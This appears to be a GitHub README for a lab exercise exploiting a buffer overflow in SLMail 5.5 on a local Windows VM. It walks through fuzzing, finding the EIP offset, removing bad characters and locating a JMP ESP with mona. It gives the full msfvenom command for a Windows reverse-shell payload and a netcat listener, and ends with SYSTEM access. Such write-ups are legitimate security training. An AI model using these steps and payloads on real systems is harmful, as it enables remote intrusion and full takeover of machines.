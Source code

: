 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

- Updated “fuzzy.py” with the target IP address and port, then saved changes.

- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

- Observed the EIP update to “41414141” in Immunity debugger.

- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

Established a netcat listener on the Kali machine using “nc -lvp 4444”.

Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

